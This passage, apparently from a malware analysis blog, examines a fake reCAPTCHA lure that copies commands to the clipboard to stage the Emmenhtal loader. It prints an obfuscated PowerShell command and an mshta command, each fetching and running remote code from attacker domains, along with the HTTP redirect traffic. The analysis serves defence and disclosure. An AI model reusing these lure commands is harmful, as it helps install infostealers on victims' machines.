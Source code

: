 ## The first loader stage: HTA

The strings that are copied to the clipboard look like this:

```powershell
POWeRsheLL . \*i*\\\\\\\\\\\\\\\\\\\\\\\\\\\\\*2\m??ta.??? https://yxyz.zyxy[.]org/MARBI.mp4?u=[REDACTED UUID] # ✅ ''I am not a robot - reCAPTCHA Verification ID: [REDACTED]''
```

or

```powershell
mshta  https://yxyz.zyxy[.]org/awjxs.captcha?u=[redacted UUID] # ✅ ''I am not a robot - reCAPTCHA Verification ID: [REDACTED]''
```

Either way, this causes the legitimate Microsoft utility `mshta` to download and execute the file at the URL passed to it. The value of the `u=` HTTP `GET` parameter is a UUID that is likely used to identify the web session of the user in order to remove the "CAPTCHA", so it looks like the user passed.

The web server responds with `HTTP 302 Found`, which redirects `mshta` to the actual location of the file to execute in the `Location` header of the response. The response headers also indicate that the threat actor is abusing Cloudflare to hide their infrastructure.

```http
GET /awjxs.captcha?u=[REDACTED] HTTP/1.1
Accept: */*
Accept-Language: en-US
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR [REDACTED]; .NET CLR [REDACTED])
Host: yxyz.zyxy[.]org
Connection: Keep-Alive
```

```http
HTTP/1.1 302 Found
Date: [REDACTED]
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Location: https://rebekkaworm.snuggleam[.]org/time.json
CF-Cache-Status: DYNAMIC
Report-To: [REDACTED]
NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 8f2a9af1192ceacc-ORD
alt-svc: h3=":443"; ma=86400
```

```http
GET /time.json HTTP/1.1
Accept: */*
Accept-Language: en-US
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR [REDACTED]; .NET CLR [REDACTED])
Connection: Keep-Alive
Host: rebekkaworm.snuggleam[.]org
```


[Reddit]: https://www.reddit.com/r/MechanicalKeyboards/comments/11xda93/beware_of_gmkkeycapscom_theyre_selling_clone_gmk/?rdt=35317
[ANY.RUN]: https://app.any.run/tasks/1fe14da0-9d9e-4fdc-9a09-60ba91a0f46a
[Emmenhtal-Anyrun]: https://any.run/malware-trends/emmenhtal
[Emmenhtal-Orange]: https://www.orangecyberdefense.com/global/blog/cert-news/emmenhtal-a-little-known-loader-distributing-commodity-infostealers-worldwide
[PowerDecode]: https://github.com/Malandrone/PowerDecode
[T1656]: https://attack.mitre.org/techniques/T1656/
[T1190]: https://attack.mitre.org/techniques/T1190/
[T1204]: https://attack.mitre.org/techniques/T1204/
[T1218.005]: https://attack.mitre.org/techniques/T1218/005/
[T1059.001]: https://attack.mitre.org/techniques/T1059/001/
[T1027.010]: https://attack.mitre.org/techniques/T1027/010/
[T1555]: https://attack.mitre.org/techniques/T1555/
[T1539]: https://attack.mitre.org/techniques/T1539/